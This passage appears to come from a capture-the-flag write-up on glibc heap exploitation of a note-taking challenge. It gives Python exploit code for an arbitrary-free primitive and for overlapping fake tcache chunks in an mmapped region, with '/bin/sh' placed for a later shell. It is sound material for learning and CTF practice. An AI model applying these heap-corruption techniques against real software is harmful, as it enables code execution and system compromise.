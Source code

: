 ## 4. Construct a reusable arbitrary-free primitive

```py
def arb_free(addr):
    create_not_secret(0, b"\n", l=0x60)
    create_not_secret(1, b"\n", l=0x60)
    delete(0)
    delete(1)
    create_not_secret(3, p64(addr) + b"\n", l=0x10)
    delete(0)
```

First, we create two notes with input buffers. 0x60 was an arbitrary choice. Then we free both of these (0 then 1). The notes will be returned to the 0x20 tcache and the input buffers returned to the 0x70 tcache. Next, a note will be created -- its input buffer will be the same chunk as note 0 (the note itself). We fill the first 8 bytes of the input buffer with an arbitrary pointer. Next, we delete note 0... remember that delete does two frees:

```c
// Free the pointer stored in the first 8 bytes of the note
// (We just filled note 0 with our input data, so this is freeing
// our arbitrary pointer)
free(*notes[idx])

// Free the note itself (note 0). This is the same as the input buffer for note 3.
free(notes[idx])
```

Note that at this point, delete(3) would probably crash, since we already free'd its input buffer.


## 5. Construct overlapping fake chunks

Now, we have a libc leak and an arbitrary free primitive. We need to work our way up to a arbitrary write, or at least a write-what-in-libc primitive. 

The plan:

1. Construct some fake chunks that will fit in tcache (I chose the 0x40 bin) and a single overlapping chunk (I chose the 0x220 bin)
2. Free two of 0x40 chunks using the arbitrary-free primitive
3. Use the overlapping chunk to overwrite the fwd pointer on the first chunk in the tcache (this is a safely-linked pointer!) so that the allocation after it returns an arbitrary (libc!) raddress.

The problem: To be able to free these chunks, we need to know where they are. Unfortunately, we don't have a heap leak. Luckily, we can allocate a very large chunk and it will get *mmapped* at a constant offset from libc!

To pass all the glibc checks when freeing an arbitrary address, we need to setup the size (0x40) for our fake chunks, and set the PREV_INUSE bit on the next chunk's size, making the size field for each 0x41.

```py
# One big 0x220 chunk, and then a few 0x40 chunks that overlap with it. /bin/sh is for later :)
mmap_payload = b"yolo" * 2 + p64(0x221) + b"E" * 0x18 + (p64(0x41) + b"A" * 0x38) * 8 + b"/bin/sh\0"

# Put the payload in a mmapped region!
create_not_secret(4, mmap_payload+b"\n", l=0x20000)

# Offset determined experimentally
mmap_payload_base = leak_revealed - 0x23dcd0
```
